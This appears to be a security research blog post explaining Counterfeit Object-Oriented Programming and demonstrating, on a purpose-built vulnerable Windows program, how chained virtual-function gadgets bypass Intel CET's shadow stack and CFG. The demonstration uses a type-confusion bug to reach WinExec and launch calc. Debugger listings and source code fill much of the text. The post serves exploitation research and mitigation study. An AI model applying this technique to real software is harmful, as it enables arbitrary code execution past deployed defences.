





Bypassing Intel CET with Counterfeit Objects
Since its inception in 20051, return-oriented programming (ROP) has been the predominant avenue to thwart W^X2 mitigation during memory corruption exploitation.
While Data Execution Prevention (DEP) has been engineered to block plain code injection attacks from specific memory areas, attackers have quickly adapted and instead of injecting an entire code payload, they resorted in reusing multiple code chunks from DEP-allowed memory pages, called ROP gadgets. These code chunks are taken from already existing code in the target application and chained together to resemble the desired attacker payload or to just disable DEP on a per page basis to allow the existing code payloads to run.
To permanently block ROP attacks, a new hardware-enforced Control Flow Integrity mitigation called Control Enforcement Technology (CET) has been developed by Intel and first shipped on Windows systems roughly two years ago.
At first, the advent of CET painted a bleak picture future for exploit developers and their reliance on ROP-based techniques. However, in 2015, a new code-reuse technique named Counterfeit Object-Oriented Programming (COOP) has been formulated in a paper3 which seemed quite promising in defeating Control-Flow Integrity (CFI) defenses.
In this blog, we’ll briefly cover how CFI mitigations works, including CET, and how we can leverage COOP to effectively bypass Intel CET on the latest Windows releases.
Forward-Edge and Backward-Edge CFI
Control Flow Integrity mechanisms can be grouped into two main categories: forward-edge and backward-edge.
Forward-edge CFI, like Microsoft CFG4, protects indirect function
calls through the use of verified function addresses. For instance,
if we overwrite the pointer dereferenced in a CALL [rax] instruction
with a ROP gadget address, CFG will block our exploit by throwing an
exception.
Conversely, backward-edge CFI like Intel’s CET5 protects a function’s return address by comparing it to a previously saved version of the address that is stored on the Shadow Stack. If the original return address gets overwritten during a memory corruption exploit, the address comparison will inevitably fail and the application will be terminated. Given that ROP-based attacks execute “RET” instructions without a prior “CALL” instruction, the running thread’s stack and the shadow stack values mismatch and so backward-edge CFI like CET effectively blocks this attack technique.
Intel CET has been designed to mitigate ROP attacks through both the Shadow Stack and COP/JOP via Indirect Branch Tracking (IBT). However since the latter technology has not yet been implemented on Windows, in this blog post we are going to refer to “Intel CET” as the implementation with only Shadow Stack enabled.
CET internals have been documented extensively in previous researches 67 and we have already demonstrated8 how the mitigation works and on which major software CET has been deployed. At the time of this writing the landscape hasn’t changed much and every major browser continues to run CET on every process except the renderer process. This means that the way CET is currently implemented is quite ineffective because the renderer process is the one that gets typically exploited.
Even though CET is still not widely enforced on browsers we should expect it to be enforced on every process over the coming years. To avoid getting caught unprepared, as researchers, we should improve our tradecraft and constantly learn about newly developed attack angles. Additionally, no matter how impeding a mitigation might be, we need to broaden our horizon if we want to find any weaknesses.
Counterfeiting Objects
As mentioned in this post’s premise, a novel code reuse technique named Counterfeit Object-Oriented Programming or COOP has been put together by Felix Schuster in 2015. We should note that this paper is quite theoretical. The technique has not been observed implemented in the wild or in disclosed exploits. Our goal for this blog post is to try to leverage this theoretical approach and implement it in a proof of concept in order to bypass Intel CET.
The main idea behind this technique is counterfeiting - that is crafting new objects in-memory from attacker-controlled payloads and to chain them together through virtual functions that are already present in the target application or in loaded libraries.
Each virtual function contained in a counterfeit object is called a vfgadget and is responsible for performing a small task. Similarly to ROP, vfgadgets can perform tasks like populating a value into a register. However when grouped together, multiple vfgadgets can execute more advanced operations.
As no specific tools exist today to discover vfgadgets, they can be found through custom scripts such as IDAPython, using a process similar to ROP gadget discovery.
Since vfgadgets are picked from a pool of CFG-valid functions we can mark them as legitimate, and their execution will not be blocked by CFG once we hijack an indirect call with one of them.
In addition, an interesting corollary is that Intel CET won’t be triggered since we won’t corrupt any function return address during the process of calling vfgadgets in sequence.
As illustrated in Schuster’s paper, a typical COOP payload begins with a foundational vfgadget that acts as the COOP’s main function. We’ll refer to it as Looper in this blog post. Once the attacker has assembled the counterfeit object in memory, the Looper vfgadget iterates over an array of other vfgadgets, carefully prearranged by the attacker, which will be invoked one by one. By aligning the vfgadgets in the counterfeit object in such a way, we’ll be able to call valid virtual functions in a controlled manner.
Once the Looper is running, it can then call other vfgadgets that are responsible for executing specific operations, like Argument Loaders Invokers and Collectors. These vfgadgets will be stored at regular intervals within the the array accessed by the Looper.
An Argument Loader vfgadget populates a given register by loading a value into it. The value to be loaded will be stored inside the counterfeit object at an offset from the beginning of the fake object.
Once the registers are populated by one or more Argument Loaders, an Invoker vfgadget can be called to simply execute the function pointer of the target API.
Collectors are gadgets that retrieve a value already present in a register, and save it back into the attacker’s counterfeit object (i.e. as a returned value from an invoked API).
The following graph sum-up the COOP attack strategy discussed so far.
|  |
|---|
| COOP attack flow |
We can arrange and mix different vfgadgets based on their availability and the desired APIs that we want to execute.
In order to better understand a COOP attack, let’s start by analyzing the main vfgadget, the Looper. The following assembly code provides a simplified version of a Looper COOP vfgadget:
mov rbx, [rcx+0x40]
loop_start:
mov rax, [rbx]
call cs:__guard_dispatch_icall_fptr
mov rbx, [rbx+20h]
test rbx, rbx
jnz short loop_start
...
loop_exit:
ret
| Listing 1 - Looper Gadget relevant ASM code |
|---|
On the first line, RCX holds the this9 pointer and we
load into RBX the start of the counterfeit object that has been
placed at offset 0x40 from RCX. Since all the items in our counterfeit
objects will be referenced at offsets from the this pointer, we need
to make sure to save its value before hijacking the program flow (i.e
by corrupting a vtable).
The COOP payload base address is then dereferenced into RAX which points to the first vfgadget that gets called. Once the call returns, a new vfgadget is loaded at offset 0x20 from the previous gadget and if the content of RBX is not zero, a new iteration of the loop takes place.
While writing our counterfeit object in memory, we need to align upfront each vfgadget to match the Looper offsets, similarly to the following layout:
|  |
|---|
| The COOP buffer in memory |
Here, 00000227`26cd8900 is the base address of our COOP payload, which is stored at offset 0x40 from the this pointer (RCX). From the previous code listing, we notice at the first line of the loop_start routine that the pointer gets dereferenced into RAX, which in turn points to the first vfgadget. On the next loop iteration the Looper repeats the same task by loading a pointer at offset 0x20 from the previous one and ultimately invokes the second vfgadget.
When exploiting real-world targets such browsers, it is recommended to rely on the Looper vfgadget because it gives more control and stability over the other vfgadgets. However, for the sake of brevity, we wrote our vulnerable application with only a single Invoker vfgadget which accepts one argument, as we’ll see in the next section.
Having covered introductory COOP theory, let’s move on to exploiting a CET-compiled proof of concept application that we developed to showcase COOP attacks.
Bypassing the CET Shadow Stack with COOP
The vulnerable application we wrote is compiled with CET and CFG in addition to DEP, which is on by default.
First off, to verify that CET is really enforced, we place a breakpoint on printf, inspect the call-stack, overwrite the return address and resume execution.
0:000> bp printf
0:000> g
0:000> k
# Child-SP RetAddr Call Site
00 00000000`0014fde8 00000001`400180e8 coop!printf [C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\ucrt\stdio.h @ 956]
01 00000000`0014fdf0 00000001`40018d54 coop!main+0x28 [C:\Users\uf0\source\repos\COOP\COOP\coop.cpp @ 54]
02 (Inline Function) --------`-------- coop!invoke_main+0x22 [D:\a\_work\1\s\src\vctools\crt\vcstartup\src\startup\exe_common.inl @ 78]
03 00000000`0014fef0 00007ffb`ec0a7034 coop!__scrt_common_main_seh+0x10c [D:\a\_work\1\s\src\vctools\crt\vcstartup\src\startup\exe_common.inl @ 288]
04 00000000`0014ff30 00007ffb`ecba2651 KERNEL32!BaseThreadInitThunk+0x14
05 00000000`0014ff60 00000000`00000000 ntdll!RtlUserThreadStart+0x21
0:000> dq 00000000`0014fde8 L1
00000000`0014fde8 00000001`400180e8
0:000> eq 00000000`0014fde8 414141414141
0:000> dq 00000000`0014fde8 L1
00000000`0014fde8 <cr>00004141`414141411</cr>
0:000> g
(16c0.f68): Security check failure or stack buffer overrun - code c0000409 (!!! second chance !!!)
Subcode: 0x39 FAST_FAIL_CONTROL_INVALID_RETURN_ADDRESS Shadow stack violation
coop!printf+0x56:
00000001`400187e6 c3 ret
| Listing 2 - Verifying that CET is enforced |
|---|
We get confirmation that CET is enabled as we are immediately prompted with a Shadow Stack exception referring to an invalid return address.
As CET is a hardware-enforced mitigation, in order to trigger the above error we would need at least an 11th Generation Core ‘Tiger Lake’ CPU
To simulate a browser vulnerability, we can obtain RIP control by taking advantage of a type confusion vulnerability in the application that is triggered automatically when the application is executed.
When we hit the trigger for the vulnerability, a vtable pointer gets corrupted by our input, leading to an indirect call that we have control over. We then hijack the vtable to make it point to our COOP buffer where our first (and only) vfgadget resides. As mentioned earlier, instead of using a Looper with nested vfgadget, for the sake of brevity, we opted to use a single gadget that features both the Invoker and Argument Loader components.
As part of the automated part of the exploit, in order to obtain the vfgadget’s this pointer, we have leaked the stack pointer and retrieved the this pointer as a static offset from the stack.
Once we have obtained the this pointer address, we prepare the address of the Windows API we want to invoke along with its arguments. This is done by writing both the Windows API address and the arguments at the required offsets inside the counterfeit object.
Before exploring the COOP payload in more detail, let’s first understand the PoC’s syntax by running it without any arguments.
C:\Users\offsec\source\repos\COOP\x64\Debug>coop.exe
[-] SYNTAX:
coop.exe <COOP obj ptr> <1st vfgadget> <WinAPI> <API argument>
[-] EXAMPLE - WinExec:
coop.exe 00001e000000 5086014001000000 40610fecfb7f0000 "cmd.exe /C calc"
[-] EXAMPLE - LoadLibraryA:
coop.exe 00001e000000 5086014001000000 f0040becfb7f0000 "edgehtml.dll"
| Listing 3 - Getting the PoC’s syntax |
|---|
The application accepts four parameters: a pointer to our counterfeit object (COOP) buffer, the vfgadget address, the Windows API address and its arguments. The helper shows two simple use-cases but this can be of course expanded to invoke any CFG-allowed API (if the application is compiled with it).
Since Windows DLLs will load at a random base address, it is required to calculate the desired API’s address beforehand.
Let’s first inspect the C++ code of the object related to our vfgadget, and then explore its corresponding assembly from the compiled binary:
class OffSec {
public:
char* a;
int (*callback)(char* a);
public:
virtual void <cr>trigger</cr>(char* a1) {
callback(a);
}
};
| Listing 4 - The ’trigger’ method from which we derive the vfgadget |
|---|
The class OffSec present in the project contains a trigger method which acts as a C-style function pointer that we can abuse to invoke any API we like, as we’ll see shortly. Then, the ‘OffSec’ class is instantiated in the main program routine so it gets loaded in memory along with its methods.
Taking a closer look at the Invoker in the disassembler reveals a few interesting aspects.
|  |
|---|
| Invoker vfgadget |
Starting from the second to the fourth line, the this pointer, referenced by RCX, is first stored on the stack and then moved into RAX. Next, the value at offset 0x10 from RAX is dereferenced and moved into RAX. This value will be the API function pointer residing in our counterfeit object. Then at line 7 and 8 the first function argument is dereferenced at offset 0x8 from the this pointer and moved into RCX.
As we’ll soon discover, the vulnerable application will take care of these offsets once we have submitted the parameters from the command line.
Having covered the main building blocks of our attack chain, let’s try to run the PoC by passing the four arguments in order to gain code execution:
C:\> coop.exe 00001e000000 5086014001000000 40610fecfb7f0000 "cmd.exe /C calc"
| Listing 5 - Running the PoC application with all parameters |
|---|
With the above command we provided the following parameters: 00001e000000 as a storage buffer for our counterfeit object, 5086014001000000 as the Invoker vfgadget in addition to 40610fecfb7f0000 which is the WinExec memory address. As a final argument we pass the WinExec string argument. Note that all memory addresses are passed in little-endian format.
Once started, the application halts immediately, allowing us to attach the debugger to it. Before doing so, we launch Process Explorer to verify that the binary is actually running with Intel CET enabled.
|  |
|---|
| Verifying that CET is enabled with Process Explorer |
Under the “Stack Protection” column, Process Explorer confirms that CET is enforced for only the CET-compatible modules, meaning that the mitigation will be enforced for any module compiled with CET. This includes our application.
Once the debugger is attached, we place a breakpoint to the only indirect call present in the main function and continue execution.
0:001>bp 00000001`4001847e
0:001> bl
0 e Disable Clear 00000001`4001847e 0001 (0001) 0:**** coop!main+0x3d2
0:001> u 00000001`4001847e L1
coop!main+0x3d2:
00000001`4001847e ff159cbb0a00 call qword ptr [coop!__guard_dispatch_icall_fptr (00000001`400c4020)]
0:000> dq 0x1e0000 L1
00000000`001e0000 <cr>00000001`400186a0<cr>
0:001> g
| Listing 6 - Breaking at the Indirect Call |
|---|
We placed a breakoint at main+0x3d2 and verified that we have indeed
an indirect call at that address. Next we dump the content of our
counterfeit object located at the static address 0x1e0000, which holds
a pointer to our vfgadget at 00000001400186a0
At main+0x3d2 is where the type confusion bug ignites and allows us to take control over RIP. As soon as we hit the breakpoint we inspect the value residing at our COOP buffer, which should be the first Invoker vfgadget. We let the application continue and verify that we indeed hit our breakpoint.
Breakpoint 0 hit
coop!main+0x3d2:
00000001`4001847e ff159cbb0a00 call qword ptr [coop!__guard_dispatch_icall_fptr (00000001`400c4020)] ds:00000001`400c4020={ntdll!LdrpDispatchUserCallTarget (00007ffb`ecbdc620)}
0:000>t
ntdll!LdrpDispatchUserCallTarget:
00007ffb`ecbdc620 4c8b1d814d0f00 mov r11,qword ptr [ntdll!LdrSystemDllInitBlock+0xb8 (00007ffb`eccd13a8)] ds:00007ffb`eccd13a8=00007df600000000
0:000>
ntdll!LdrpDispatchUserCallTarget+0x23:
00007ff8`7c5fc643 48ffe0 jmp rax {<cr>coop!OffSec::trigger</cr> (00000001`400186a0)}
...
0:000>
coop!OffSec::trigger:
<cr>00000001`400186a0</cr> 4889542410 mov qword ptr [rsp+10h],rdx ss:00000000`0014fdf8=0000000000612b77
| Listing 7 - Landing on the first COOP vfgadget |
|---|
After tracing into the CFG LdrpDispatchUserCallTarge routine we jump to the Invoker vfgadget ‘OffSec::trigger", proving that we have control over the program’s execution flow. We then continue tracing inside the vfgadget:
0:000> t
...
coop!OffSec::trigger+0x5:
00000001`40018655 48894c2408 mov qword ptr [rsp+8],rcx ss:00000000`0014fdf0=00000001400a1108
0:000> dq rcx L1
00000000`00590d80 <cr>00000000`001e0000</cr>
0:000> t
coop!OffSec::trigger+0xa:
00000001`4001865a 4883ec38 sub rsp,38h
0:000>
coop!OffSec::trigger+0xe:
00000001`4001865e 488b442440 mov rax,qword ptr [rsp+40h] ss:00000000`0014fdf0=0000000000590d80
| Listing 8 - Moving the ’this’ pointer into RAX |
|---|
In the above listing, the Invoker first saves the this pointer from RCX into the stack, and we also verify that it points to the base of our COOP buffer. On the last instruction the ’this’ pointer is loaded into RAX, which will be used as a reference to invoke the API and its argument:
0:000>
coop!OffSec::trigger+0x13:
00000001`40018663 488b4010 mov rax,qword ptr [rax+10h] ds:00000000`00590d90=<cr>{KERNEL32!WinExec (00007ffb`ec0f6140)}</cr>
0:000>
coop!OffSec::trigger+0x17:
00000001`40018667 4889442420 mov qword ptr [rsp+20h],rax ss:00000000`0014fdd0=000000000000001f
0:000>
coop!OffSec::trigger+0x1c:
00000001`4001866c 488b442440 mov rax,qword ptr [rsp+40h] ss:00000000`0014fdf0=0000000000590d80
0:000>
coop!OffSec::trigger+0x21:
00000001`40018671 488b4808 mov rcx,qword ptr [rax+8] ds:00000000`00590d88=00000000001e0080
0:000> dc 00000000001e0080
00000000`001e0080 2e646d63 20657865 6320432f 00636c61 cmd.exe /C calc.
...
| Listing 9 - Loading WinExec parameters from the ’this’ pointer |
|---|
First, at offset 0x10 we can see that WinExec address is loaded into RAX and then, three instructions later, the command parameter gets retrieved at offset 0x8.
Once we let execution continue, we invoke LdrpDispatchUserCallTarget
again which in turn dispatches execution to WinExec and welcomes us
with our calculator.
|  |
|---|
| Successfully Calling WinExec |
This completes our brief proof-of-concept where we demonstrated that we can bypass the Intel CET Shadow Stack and obtain arbitrary code execution via a COOP attack by calling CFG-allowed functions while simultaneously avoiding corrupting any return address.
The Visual Studio project for this PoC application can be found at the following URL.
Conclusions
Intel CET provides yet another strong defensive mechanism that surely steps up the exploit development game. Nonetheless, new attack pathways such as COOP can be adopted to circumvent this mitigation. As we learned so far, COOP vfgadgets are inherently allowed by CFG and so, in a real-world scenario they could be chained together to circumvent Intel CET and possibly other CFI mitigations.
-
(Sebastian Krahmer, 2005): https://trailofbits.github.io/ctf/exploits/references/no-nx.pdf ↩︎
-
(Wikipedia, 2022): https://en.wikipedia.org/wiki/W%5EX ↩︎
-
(Schuster F., 2015): https://www.researchgate.net/publication/283121202_Counterfeit_Object-oriented_Programming_On_the_Difficulty_of_Preventing_Code_Reuse_Attacks_in_C_Applications ↩︎
-
(Microsoft, 2022): https://docs.microsoft.com/en-us/windows/win32/secbp/control-flow-guard ↩︎
-
(Intel, 2016): https://web.archive.org/web/20170320213641/https://software.intel.com/sites/default/files/managed/4d/2a/control-flow-enforcement-technology-preview.pdf ↩︎
-
(Yarden Shafir and Alex Ionescu, 2020): https://windows-internals.com/cet-on-windows/ ↩︎
-
(Yarden Shafir, 2020): https://windows-internals.com/cet-updates-cet-on-xanax/ ↩︎
-
(Offensive Security, 2021): https://www.offensive-security.com/offsec/intel-cet-in-action/ ↩︎
-
(Microsoft, 2022): https://docs.microsoft.com/en-us/cpp/cpp/this-pointer?view=msvc-170 ↩︎